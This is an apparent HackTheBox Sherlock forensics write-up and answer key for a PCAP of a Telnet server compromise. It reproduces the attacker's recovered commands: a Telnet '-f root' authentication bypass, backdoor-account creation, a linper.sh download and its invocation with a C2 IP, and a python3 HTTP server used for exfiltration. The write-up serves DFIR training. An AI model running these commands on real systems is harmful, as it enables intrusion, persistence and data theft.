





# Telly — HackTheBox Sherlock Writeup

**Prepared by:** Djibril Gathoni  
**Difficulty:** Easy  
**Category:** DFIR / Network Forensics  
**Date:** July 2026

---

## 1. Scenario Overview

> *You are a Junior DFIR Analyst at an MSSP that provides continuous 
> monitoring and DFIR services to SMBs. Your supervisor has tasked you 
> with analyzing network telemetry from a compromised backup server. 
> A DLP solution flagged a possible data exfiltration attempt from 
> this server. According to the IT team, this server wasn't very busy 
> and was sometimes used to store backups.*

---

## 2. Artifacts & Evidence

| Artifact | Description |
|----------|-------------|
| `Telly.zip` | Password-protected archive provided by HTB (5 MB) |
| `monitoringservice_export_202610AM-11AM.pcapng` | Network capture from the compromised backup server |

### Extracting the Artifact



Download `Telly.zip` from the HTB Sherlock page, then extract it 
using the HTB-provided password:

```bash
cd ~/Downloads/telly
unzip Telly.zip
```

Open the PCAP in Wireshark:

```bash
wireshark Telly/monitoringservice_export_202610AM-11AM.pcapng
```



---

## 3. Investigation

### 3.1 Initial Access — CVE-2026-24061

**Task 1: What CVE is associated with the vulnerability exploited 
in the Telnet protocol?**

**Answer: `CVE-2026-24061`**


Filter for Telnet traffic in Wireshark: 
tcp.port == 23

Right-click any Telnet packet → **Follow → TCP Stream** (Stream 14).

At the very top of the stream, the exploitation technique is 
immediately visible:
USER.-f root.DISPLAY.kali:0.0.....XTERM-256COLOR

The attacker passed `-f root` as the `NEW-ENVIRON USER` value via 
the Telnet option negotiation. This tricks the `login` binary into 
treating root as pre-authenticated, bypassing the password check 
entirely. This is the exploitation technique associated with 
**CVE-2026-24061**.

---

### 3.2 Target Identification & Timeline

**Task 2: When was the Telnet vulnerability successfully exploited, 
granting the attacker remote root access?**

**Answer: `2026-01-27 10:39:28`**


Following TCP Stream 14, the Ubuntu MOTD banner confirms the 
moment the root shell was granted:
Linux 6.8.0-90-generic (backup-secondary) (pts/1)
"Welcome to Ubuntu 24.04.3 LTS (GNU/Linux 6.8.0-90-generic x86_64)"
System information as of Tue Jan 27 10:39:28 UTC 2026

The system timestamp printed at login — `2026-01-27 10:39:28` — 
marks the exact moment the attacker gained root access.

---

**Task 3: What is the hostname of the targeted server?**

**Answer: `backup-secondary`**


The hostname appears in two places within the TCP stream:

1. The kernel banner: `Linux 6.8.0-90-generic (backup-secondary)`
2. Every subsequent shell prompt: `root@backup-secondary:~#`

---

### 3.3 Persistence — Backdoor Account

**Task 4: The attacker created a backdoor account to maintain future 
access. What username and password were set for that account?**

**Answer: `cleanupsvc:YouKnowWhoiam69`**



Still within TCP Stream 14, the attacker ran the following command:

```bash
sudo useradd -m -s /bin/bash cleanupsvc; \
echo "cleanupsvc:YouKnowWhoiam69" | sudo chpasswd
```

The account was deliberately named `cleanupsvc` to blend in as a 
legitimate maintenance service account — a classic attacker technique 
to avoid detection during a casual review of system users.

The account creation is later confirmed in the `/etc/shadow` dump 
the attacker performed:
cleanupsvc:yy
yj9TZ2NfVyVsu8gxGb1aZtCRr.Z2NfVyVsu8gxGb1aZtCRr.
Z2NfVyVsu8gxGb1aZtCRr.Ed0czry6Sp...:20480:0:99999:7:::

The epoch date `20480` is one day after all legitimate accounts 
(`20479`), further confirming it was created during the intrusion.

---

### 3.4 Persistence — C2 Infrastructure

**Task 5: What was the full command the attacker used to download 
the persistence script?**

**Answer:**
wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh


After establishing the backdoor account, the attacker downloaded 
the open-source Linux persistence framework **linper.sh** from 
GitHub into `/tmp`:

```bash
wget https://raw.githubusercontent.com/montysecurity/linper/\
refs/heads/main/linper.sh
chmod +x linper.sh
```

---

**Task 6: The attacker installed remote access persistence using 
the persistence script. What is the C2 IP address?**

**Answer: `91.99.25.54`**


The attacker ran linper.sh with the C2 IP and port as arguments:

```bash
bash linper.sh 91.99.25.54 --p 59 --stealth-mode
```

The `--stealth-mode` flag instructed linper to timestomp all 
modified persistence files and install persistence across multiple 
vectors simultaneously.

Persistence was installed across the following locations using 
`awk`, `bash`, `nc`, `perl`, `python3`, `pwsh`, and `telnet`:

| Location | Method |
|----------|--------|
| `/var/spool/cron/crontabs/root` | Multiple |
| `/etc/crontab` | Multiple |
| `/etc/cron.d/` | Multiple |
| `/etc/systemd/` | Multiple |
| `/etc/rc.local` | bash, nc, perl, python3, pwsh, telnet |

---

### 3.5 Data Exfiltration & Breach Analysis

**Task 7: The attacker exfiltrated a sensitive database file. 
At what time was this file exfiltrated?**

**Answer: `2026-01-27 10:49:54`**




After establishing persistence, the attacker navigated to `/opt` 
and found a sensitive database:
/opt/credit-cards-25-blackfriday.db

They served it over HTTP using Python's built-in HTTP server on 
port 6932:

```bash
python3 -m http.server 6932
```

Filtering for `tcp.port == 6932` in Wireshark reveals the 
exfiltration event. The HTTP access log entry confirms the 
exact timestamp:
192.168.72.131 - - [27/Jan/2026 10:49:54]
"GET /credit-cards-25-blackfriday.db HTTP/1.1" 200 -

The attacker then deleted the file to cover their tracks.

---

**Task 8: Find the credit card number for a customer named 
Quinn Harris.**

**Answer: `5312269047781209`**



The database was carved from the PCAP via 
**File → Export Objects → HTTP** in Wireshark.

```bash
sqlite3 credit-cards-25-blackfriday.db
```

```sql
.tables
-- purchases

PRAGMA table_info(purchases);
-- id, email, creditcardnumber, purchase_date, item_purchased

SELECT * FROM purchases WHERE email LIKE '%quinn.harris%';
-- 12|quinn.harris@hotmail.com|5312269047781209|2025-12-08|4K monitor
```

Quinn Harris's credit card number: **`5312269047781209`**

---

## 4. Attack Chain Summary
[Attacker: 192.168.72.131]
|
| Telnet to port 23
| NEW-ENVIRON USER = "-f root" (CVE-2026-24061)
|
v
[Target: backup-secondary (192.168.72.136)]
|
| Root shell granted — 2026-01-27 10:39:28
|
|— Backdoor account created: cleanupsvc:YouKnowWhoiam69
|
|— linper.sh downloaded from GitHub
|   Persistence installed across cron, systemd, rc.local
|   C2: 91.99.25.54:59 (stealth mode, timestomped)
|
|— /opt/credit-cards-25-blackfriday.db discovered
|   Served via python3 HTTP server on port 6932
|   Exfiltrated at 2026-01-27 10:49:54
|
|— Database deleted to cover tracks
|
v
[Attacker exits — persistence mechanisms remain active]

---

## 5. MITRE ATT&CK Mapping

| Tactic | Technique | ID | Description |
|--------|-----------|-----|-------------|
| Initial Access | Exploit Public-Facing Application | T1190 | CVE-2026-24061 Telnet exploit |
| Persistence | Create Account | T1136.001 | cleanupsvc backdoor account |
| Persistence | Scheduled Task/Job: Cron | T1053.003 | linper.sh cron persistence |
| Persistence | RC Scripts | T1037.004 | /etc/rc.local modification |
| Command & Control | Non-Standard Port | T1571 | C2 on port 59 |
| Defense Evasion | Timestomp | T1070.006 | linper --stealth-mode |
| Collection | Data from Local System | T1005 | SQLite database discovery |
| Exfiltration | Exfiltration Over Web Service | T1567 | python3 HTTP server on port 6932 |
| Impact | Data Destruction | T1485 | Database deleted post-exfil |

---

## 6. Lessons Learned

- **Telnet should never be exposed** — it transmits data in 
  plaintext and carries critical vulnerabilities. Replace with SSH.
- **Monitoring legacy protocol ports** (port 23) would have 
  flagged this intrusion immediately.
- **Backup servers are high-value targets** — they often store 
  sensitive data and receive less security attention than 
  production systems.
- **DLP solutions work** — the exfiltration was caught by the 
  DLP alert that triggered this investigation.
- **Open source persistence tools** like linper.sh are freely 
  available and actively used by threat actors.

---

## 7. Remediation Recommendations

| Finding | Recommendation |
|---------|---------------|
| Telnet exposed on port 23 | Disable telnetd immediately. Migrate to SSH. |
| CVE-2026-24061 | Patch or replace the vulnerable telnetd binary. |
| Backdoor account (cleanupsvc) | Remove account, audit all users, enforce account creation monitoring. |
| Cron/systemd persistence | Audit all cron files and systemd units for unauthorized entries. |
| C2 communication to 91.99.25.54 | Block IP at firewall, review egress filtering policy. |
| Sensitive data in /opt | Review data storage policies. Sensitive databases should not reside on backup servers. |
| Evidence destruction | Implement file integrity monitoring (FIM) on sensitive directories. |

---

## 8. Task Answers

| Task | Question | Answer |
|------|----------|--------|
| 1 | CVE associated with Telnet vulnerability | `CVE-2026-24061` |
| 2 | Timestamp of successful exploitation | `2026-01-27 10:39:28` |
| 3 | Hostname of targeted server | `backup-secondary` |
| 4 | Backdoor account credentials | `cleanupsvc:YouKnowWhoiam69` |
| 5 | Full command to download persistence script | `wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh` |
| 6 | C2 IP address | `91.99.25.54` |
| 7 | Time of database exfiltration | `2026-01-27 10:49:54` |
| 8 | Quinn Harris credit card number | `5312269047781209` |

---

## 9. References

- [CVE-2026-24061](https://www.cve.org/)
- [linper.sh — Linux Persistence Framework](https://github.com/montysecurity/linper)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Wireshark Documentation](https://www.wireshark.org/docs/)


